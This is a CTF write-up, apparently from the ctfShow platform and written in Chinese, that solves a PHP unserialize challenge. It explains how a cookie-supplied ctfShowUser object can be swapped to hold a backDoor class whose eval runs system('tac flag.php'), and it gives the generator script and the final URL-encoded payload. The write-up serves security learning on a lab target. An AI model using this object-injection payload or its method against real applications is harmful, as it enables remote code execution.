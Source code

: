 ```php
    private $code;  
    public function getInfo(){  
        eval($this->code);  
    }  
}  
  
$username=$_GET['username'];  
$password=$_GET['password'];  
  
if(isset($username) && isset($password)){   
   $user = unserialize($_COOKIE['user']);    
   $user->login($username,$password);  
}
```

这一题的思路就是通过cookie传入一个`ctfShowUser`类，在这个类中多了一个变量`$class`,这个在代码中的预计功能是一个类`info`, 而在这个类结束的时候会执行变量class中的`getInfo()`

关键就在于这段代码中有一个类`backDoor`,这其中有一个函数也叫`getInfo`,而且还可以进行RCE代码执行

所以我们可以构造:
```php
<?php  
class ctfShowUser{  
    private $username='xxxxxx';  
    private $password='xxxxxx';  
    private $isVip=false;  
    private $class = 'info';  
  
    public function __construct(){  
        $this->class=new backDoor();  
    }  
  
}  
  
class backDoor{  
    private $code='system("tac flag.php");';  
}  
  
echo "user=".urlencode(serialize(new ctfShowUser()))."<br>";  
?>
```


得到payload：
```txt
user=O%3A11%3A%22ctfShowUser%22%3A4%3A%7Bs%3A21%3A%22%00ctfShowUser%00username%22%3Bs%3A6%3A%22xxxxxx%22%3Bs%3A21%3A%22%00ctfShowUser%00password%22%3Bs%3A6%3A%22xxxxxx%22%3Bs%3A18%3A%22%00ctfShowUser%00isVip%22%3Bb%3A0%3Bs%3A18%3A%22%00ctfShowUser%00class%22%3BO%3A8%3A%22backDoor%22%3A1%3A%7Bs%3A14%3A%22%00backDoor%00code%22%3Bs%3A23%3A%22system%28%22tac+flag.php%22%29%3B%22%3B%7D%7D
```
![Pasted image 20241007214334.png](/img/user/picture/Pasted%20image%2020241007214334.png)
